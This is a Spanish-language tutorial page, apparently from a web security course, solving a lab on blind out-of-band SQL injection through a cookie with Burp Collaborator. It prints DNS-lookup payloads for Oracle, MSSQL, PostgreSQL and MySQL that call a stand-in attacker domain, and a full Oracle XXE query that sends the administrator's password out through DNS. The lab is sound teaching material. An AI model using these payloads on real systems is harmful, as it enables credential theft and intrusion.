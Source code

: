 ```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/oob_type/oob_exercise
nav_order: 1
parent: 4.4 Fuera de banda
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio práctico de inyección fuera de banda

## Consigna
La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie presentada. La misma es vulnerable a Inyecciones SQL, sin embargo las consultas se ejecutan de forma asincrónica y no tienen ningún efecto en la respuesta de la aplicación. Por lo que, debemos probar extraer la información mediante otro canal.

Nuevamente nos mencionan que la base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`, y para resolver el laboratorio, es necesario  iniciar sesión como `administrator`.

## Resolución con Burp Collaborator

Para la resolución de este laboratorio se utilizara el servidor de burp collaborator el cual esta publicado a internet y puede funcionar como canal para recibir la información. Y nos apoyaremos en la [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) para la construcción de la consulta.

La premisa del laboratorio nos menciona que no es posible observar cambios de comportamiento sobre la aplicación, por lo que todas nuestras pruebas deben apoyarse directamente en nuestro servidor tercero. Para ello debemos  ir a la seccion `Collaborator` (Solo disponible para Burpsuite Professional).

![Collaborator](/test-page/assets/oob_ex_1.png)

Solo debemos presionar `Copy to clipboard` y automáticamente obtendremos un subdominio único el cual podremos usar como canal para visualizar las respuestas del servidor. 

Podemos probar los diferentes métodos mencionados en la cheat sheet para forzar una consulta DNS lookup e identificar el tipo de base de datos.

	ORACLE:
	La siguiente técnica aprovecha una vulnerabilidad de entidad externa XML ([XXE](https://portswigger.net/web-security/xxe)) para activar una búsqueda DNS. La vulnerabilidad ha sido parcheada, pero existen muchas instalaciones de Oracle sin parchear:  
	`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`  
  
	La siguiente técnica funciona en instalaciones Oracle totalmente parcheadas, pero requiere privilegios elevados:  
	`SELECT UTL_INADDR.get_host_address('dominio-atacante.net')`

	MICROSOFT:
	`exec master..xp_dirtree '//dominio-atacante.net'`

	PostgreSQL:
	`copy (SELECT '') to program 'nslookup dominio-atacante.net'`

	MySQL:
	Las siguientes técnicas sólo funcionan en Windows:  
	`LOAD_FILE('\\\\dominio-atacante.net\a')`  
	`SELECT ... INTO OUTFILE '\\\\dominio-atacante.net\a'`

Una consulta exitosa generaría una resolución DNS sobre el dominio utilizado, esto sería visualizado de la siguiente manera en la sección `Collaborator`

![Collaborator 2](/test-page/assets/oob_ex_2.png)

Bien, identificamos el tipo de base, sumado a los datos facilitados en la consigna, solo nos restaría construir la consulta mediante la cual vamos a extraer la información que requerimos, volvamos a la **sheat sheet**.
  
La siguiente técnica aprovecha una entidad externa XML ([XXE](https://portswigger.net/web-security/xxe)) para activar una búsqueda de DNS.

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.dominio-atacante.net/"> %remote;]>'),'/l') FROM dual
`

Con nuestra consulta SQL quedaría de la siguiente forma:

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select password from users where username='administrator')||'.dominio-atacante.net/"> %remote;]>'),'/l') FROM dual`

Tal como está construida la consulta, lo que esperaríamos es una resolución DNS cuyo dominio consultado contendrá la respuesta de la consulta SQL continuado por el dominio atacante, algo similar a: `password.dominio-atacante.net`.

Observemos la respuesta en el `Collaborator`

![Collaborator 3](/test-page/assets/oob_ex_3.png)

[DNS Based Out of Band Blind SQL injection in Oracle — Dumping data](https://usamaazad.medium.com/dns-based-out-of-band-blind-sql-injection-in-oracle-dumping-data-45f506296945)
